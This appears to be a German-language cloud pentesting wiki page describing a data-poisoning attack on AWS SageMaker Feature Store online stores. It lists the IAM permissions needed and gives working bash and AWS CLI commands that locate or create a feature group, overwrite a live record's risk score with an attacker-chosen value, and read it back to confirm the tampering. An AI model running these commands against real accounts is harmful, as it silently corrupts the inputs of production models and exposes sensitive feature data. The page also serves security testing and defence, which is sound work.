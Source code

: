 # SageMaker Feature Store online store poisoning

Missbrauche `sagemaker:PutRecord` auf einer Feature Group mit aktiviertem OnlineStore, um Live-Feature-Werte zu überschreiben, die von Online-Inferenz verwendet werden. In Kombination mit `sagemaker:GetRecord` kann ein Angreifer sensible Features auslesen. Dafür ist kein Zugriff auf Modelle oder endpoints erforderlich.

## Anforderungen
- Berechtigungen: `sagemaker:ListFeatureGroups`, `sagemaker:DescribeFeatureGroup`, `sagemaker:PutRecord`, `sagemaker:GetRecord`
- Ziel: Feature Group mit OnlineStore enabled (typischerweise backing real-time inference)

## Schritte
1) Wähle oder erstelle eine kleine Online Feature Group zum Testen
```bash
REGION=${REGION:-us-east-1}
FG=$(aws sagemaker list-feature-groups --region $REGION --query "FeatureGroupSummaries[?OnlineStoreConfig!=null]|[0].FeatureGroupName" --output text)
if [ -z "$FG" -o "$FG" = "None" ]; then
ACC=$(aws sts get-caller-identity --query Account --output text)
FG=ht-fg-$ACC-$(date +%s)
ROLE_ARN=$(aws iam get-role --role-name AmazonSageMaker-ExecutionRole --query Role.Arn --output text 2>/dev/null || echo arn:aws:iam::$ACC:role/service-role/AmazonSageMaker-ExecutionRole)
aws sagemaker create-feature-group --region $REGION --feature-group-name "$FG" --record-identifier-feature-name entity_id --event-time-feature-name event_time --feature-definitions "[{\"FeatureName\":\"entity_id\",\"FeatureType\":\"String\"},{\"FeatureName\":\"event_time\",\"FeatureType\":\"String\"},{\"FeatureName\":\"risk_score\",\"FeatureType\":\"Fractional\"}]" --online-store-config "{\"EnableOnlineStore\":true}" --role-arn "$ROLE_ARN"
echo "Waiting for feature group to be in Created state..."
for i in $(seq 1 40); do
ST=$(aws sagemaker describe-feature-group --region $REGION --feature-group-name "$FG" --query FeatureGroupStatus --output text || true)
echo $ST; [ "$ST" = "Created" ] && break; sleep 15
done
fi
```
2) Einen Online-Datensatz einfügen/überschreiben (poison)
```bash
NOW=$(date -u +%Y-%m-%dT%H:%M:%SZ)
cat > /tmp/put.json << JSON
{
"FeatureGroupName": "$FG",
"Record": [
{"FeatureName": "entity_id", "ValueAsString": "user-123"},
{"FeatureName": "event_time", "ValueAsString": "$NOW"},
{"FeatureName": "risk_score", "ValueAsString": "0.99"}
],
"TargetStores": ["OnlineStore"]
}
JSON
aws sagemaker-featurestore-runtime put-record --region $REGION --cli-input-json file:///tmp/put.json
```
3) Datensatz zurücklesen, um die Manipulation zu bestätigen
```bash
aws sagemaker-featurestore-runtime get-record --region $REGION --feature-group-name "$FG" --record-identifier-value-as-string user-123 --feature-name risk_score --query "Record[0].ValueAsString"
```
Erwartet: risk_score liefert 0.99 (vom Angreifer gesetzt) und beweist die Fähigkeit, Online-Features zu verändern, die von Modellen verwendet werden.

## Auswirkungen
- Echtzeit-Integritätsangriff: Manipuliere Features, die von Produktionsmodellen verwendet werden, ohne Endpunkte/Modelle zu berühren.
- Vertraulichkeitsrisiko: Sensible Features via GetRecord aus dem OnlineStore lesen.
